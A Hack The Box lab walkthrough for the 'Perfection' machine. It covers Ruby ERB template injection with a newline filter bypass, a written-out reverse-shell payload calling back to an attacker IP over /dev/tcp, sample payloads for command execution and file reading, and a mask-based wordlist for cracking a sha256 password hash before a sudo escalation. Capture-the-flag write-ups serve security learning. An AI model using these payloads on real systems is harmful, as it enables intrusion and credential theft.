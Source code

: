 ```yaml
---
title: "Perfection Walkthrough(Hack The Box)"
date: 2025-03-14
draft: false 
description: "Perfection is an easy Linux machine that features a web application with functionality to calculate student scores. This application is vulnerable to Server-Side Template Injection (SSTI) via regex filter bypass. A foothold can be gained by exploiting the SSTI vulnerability. Enumerating the user reveals they are part of the `sudo` group. Further enumeration uncovers a database with password hashes, and the user&amp;amp;#039;s mail reveals a possible password format. Using a mask attack on the hash, the user&amp;amp;#039;s password is obtained, which is leveraged to gain `root` access."
tags: ["Easy", "Linux", "Hack The Box", "hacking","walkthrough", "web"]
 
---
```


## Reconnaissance && Enumeration  
- Nmap scan results:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Weighted Grade Calculator
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Uptime guess: 15.030 days (since Tue Dec 31 22:06:01 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- I was hanging around the website to find anything interesting, I am not gonna lie the website is both basic and neat
![gif](https://media1.tenor.com/m/RKfVkcF5d38AAAAC/well-made-sungwon-cho.gif)
- After a while I foud this Weighted grade calculator interesting
![Pasted image 20250116004126.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116004126.png?raw=true)
- In the footer of the page it shows/exposes that the website powered by `WEBrick 1.7.0`. So I noted it down.
- After some bunch of research I learnt that WEBrick uses Ruby to run. If I can recall I think there is even a module in ruby named Webrick. I'll leave the details below
{{< details summary="View the attached Links" >}} [Link-1 ](https://docs.ruby-lang.org/en/2.4.0/WEBrick.html) <br> [Link-2](https://github.com/ruby/webrick) <br> [Link-3](https://en.wikipedia.org/wiki/WEBrick) {{< /details >}}

- Like in python SSTI are possible for Ruby and as this a calculator it gives us more clue to work on that. So I jumped the gun
![gun](https://media1.tenor.com/m/UrhCgLoVcAcAAAAC/just-jump-the-gun-harry-jowsey.gif)
- This article showcases the SSTI on a WEBrick made site, talk about being lucky, lol --> [Link here](https://trustedsec.com/blog/rubyerb-template-injection)
![lucky](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExNjY3NjB3ZHAycjl5Nmg5cDk5NjVvMWR1bnJxNTZza3dvZWNoeHlkMiZlcD12MV9naWZzX3NlYXJjaCZjdD1n/THfsqxdJ6K0MrTutIb/giphy.gif)
- This [Medium article](https://medium.com/@bdemir/a-pentesters-guide-to-server-side-template-injection-ssti-c5e3998eae68) helped me a lot with payloads for the ruby SSTI and while I was testing It, I couldn't get any valid results
![Pasted image 20250116005312.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116005312.png?raw=true)
- Below contains the example payloads for Ruby. These are some of the payloads that I used for SSTI
```ruby
<%= system("whoami") %>  
<%= Dir.entries('/') %>  
<%= File.open('/example/arbitrary-file').read %>
```
## Exploitation
- Some payload worked after little tweaks, But blocked by the web page as `Malicious Input` anyway. Hey atleast we got something
![Pasted image 20250116005529.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116005529.png?raw=true)
- No matter how I URL encode, it didn't even worked. Probably the site blocks the symbols in the payload hmm...
![thinking](https://media.giphy.com/media/kPtv3UIPrv36cjxqLs/giphy.gif?cid=790b7611ou1885fjp6ktw531ypmpolj0xnsuejgxhz89xpis&ep=v1_gifs_search&rid=giphy.gif&ct=g)
- I learnt that URL encoded value of new-line`(%0a`) helps in bypassing SSTI validation So I used that before the payload as prefix and like a magic it worked
- The `whoami` doesn't return any output
![Pasted image 20250116010747.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116010747.png?raw=true)
- I tried hitting my machine for a check, and I got the request 
![Pasted image 20250116010907.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116010907.png?raw=true)
- Request: 
![Pasted image 20250116010943.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116010943.png?raw=true)
- As everything works fine its time for us to brew the cursed reverse shell payload
![brewing](https://media1.tenor.com/m/6uyO5POa2TMAAAAC/creepy-creep.gif) 
```bash
%0a<%25%3d+system("bash+-c+'exec+bash+-i+%26>/dev/tcp/10.10.14.10/7001+<%261'")+%25>
```
- It worked and we are as user `susan` now
- Secured {{< keyword >}} User flag {{< /keyword >}}
![Pasted image 20250116011350.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116011350.png?raw=true)

## Privilege Escalation
- While enumerating I found two other folders wihin user `susan's` home directory 
![Pasted image 20250116015043.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116015043.png?raw=true)
- `Migration` folder had sqlite database file so for a change I opened the file in the target system itself
- The database had only one table called `users` . Inside that table, password hashes for five users were included
![Pasted image 20250116015454.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116015454.png?raw=true)
- The hashes were made from using `sha256` algorithm
![Pasted image 20250116015710.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116015710.png?raw=true)
- I tried cracking the hashes using my tool [BananaCracker](https://github.com/Emp5r0R/BananaCracker)(Previously sha256_cracker), But it failed
![Pasted image 20250116020022.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116020022.png?raw=true)
- Then, I started enumerating system further for privesc vectors and rather I found this `/var/mail`
- Inside `/var/mail/susan` the message reads 
```
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.
```
- As per the instructions I created a python script to make password list for user `susan`
```python
output_file = "susan_nasus_password.txt"

with open(output_file, "w") as file:
    for number in range(1, 1_000_000_001):
        file.write(f"susan_nasus_{number}\n")

print(f"File '{output_file}' has been successfully created.")
```
- This would be both easy and fast when using bash 
```bash
for ((i=1; i<=1000000000; i++)); do echo "susan_nasus_$i" >> "$output_file"
```
- With the new wordlists I fired up my tool again and got the password
![Pasted image 20250116020736.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116020736.png?raw=true)
- You can get my tool from here [BananaCracker](https://github.com/Emp5r0R/BananaCracker)(Previously known as sha256_cracker). More features will be added by the time of your visit
![mine](https://media1.tenor.com/m/CyLsZhMXHioAAAAC/mine-is-the-best-mariah-milano.gif)
- Using the password I logged in via SSH as user `susan`
- I really wasn't expecting this twist I was hoping for more steps, anyway I am glad. See this yourself lol
- User `susan` can run sudo without any password
![are-we-a-joke](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExYTRmZG9ienp5dW1qYW1xZTExYTdlejgyaW9wNjU3bXVmem9hZTU2cCZlcD12MV9naWZzX3NlYXJjaCZjdD1n/9ppWJumH0DiZ6co7ee/giphy.gif)
![Pasted image 20250116021417.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116021417.png?raw=true)
- Got the {{< keyword >}} Root flag {{< /keyword >}}
![Pasted image 20250116021446.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250116021446.png?raw=true)

{{< typeit >}} Anyway guys, this concludes it this was a fun box but not particularly easy as rated. I hope you liked this post and don't forget to share this post, Fun fact we have share links for almost every platform.. look below. Emp5r0R  signing off... {{< /typeit >}}

![bye](https://media1.tenor.com/m/S1xOjTOnwLgAAAAd/masters-of-the-universe-skeletor-mot-u.gif)
